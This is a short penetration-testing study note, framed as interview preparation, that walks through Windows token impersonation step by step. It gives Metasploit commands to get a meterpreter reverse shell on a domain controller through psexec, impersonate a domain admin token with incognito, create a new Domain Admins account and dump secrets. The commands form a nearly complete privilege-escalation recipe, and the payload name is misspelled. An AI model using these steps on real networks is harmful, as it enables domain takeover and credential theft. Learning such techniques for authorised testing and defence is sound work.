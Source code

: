 # Token Impersonation

**Token Impersonation** is the concept that every user logged into a system has a token stored for them just as a cookie is cached on a website. The goal is to impersonate a domain admin token and create our own domain admin. 

Step 1: Run Metasploit

```jsx
msfconsole
```

Step 2:  Set options under psexec

```jsx
search psexec

use 4 (exploit/windows/smb/psexec)

options

set payload windows/x64/meterpeter/reverse_tcp

set rhosts IP ADDRESS OF DC

set smbuser USERNAME

set smbpass PASSWORD

set smbdomain DOMAIN
```

 The above commands set the options for your payload and creates a basic shell to access the device. 

Step 3: Load incognito

```jsx
load incognito
```

- User you want to impersonate has to be logged into device. To verify they are logged in run command

```jsx
list_tokens -u
```

Step 4: Impersonate Token

```jsx
impersonate_token DOMAIN\\username
```

Step 5: Give access to yourself with a new account or other tasks. Once you are impersonation a token you can create a user and add them to the domain admins group if you have access to the token of another domain admin

```jsx
shell

net user /add USERNAME PASSWORD /domain

net group "Domain Admins" USERNAME /ADD /DOMAIN
```

Step 6: Test

Perform a secretsdump with the new domain admin

Token Impersonation is a must know for a Pentest Interview, they will ask about it.